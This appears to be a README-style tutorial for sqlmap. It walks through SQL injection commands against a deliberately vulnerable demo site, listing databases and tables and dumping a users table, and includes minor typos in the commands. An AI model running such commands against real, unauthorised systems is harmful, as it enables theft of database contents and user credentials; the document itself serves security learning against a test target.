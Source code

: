 # sqlmap ![](https://i.imgur.com/fe85aVR.png)

[![.github/workflows/tests.yml](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml/badge.svg)](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml) [![Python 2.6|2.7|3.x](https://img.shields.io/badge/python-2.6|2.7|3.x-yellow.svg)](https://www.python.org/) [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE) [![Twitter](https://img.shields.io/badge/twitter-@sqlmap-blue.svg)](https://twitter.com/sqlmap)

Installation
----

Preferably, you can download sqlmap by cloning the [Git](https://github.com/sqlmapproject/sqlmap) repository:

    git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

Usage
----

To get a list of basic options and switches use:

    python sqlmap.py -h

To get a list of all options and switches use:

    python sqlmap.py -hh

Enter Root:
---
To enter sudo enter the code and enter password:

    sudo su

Web App
---
Copy the url and open in web browser:

    http://testphp.vulnweb.com/listproducts.php?cat=1

Code
---
To get details of the database:

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch --dbs

To open database(acurat is a database name):

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch -D acuart --tables --dbs

To get details of the table:

    sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch -D acuart -T users -columns --dump
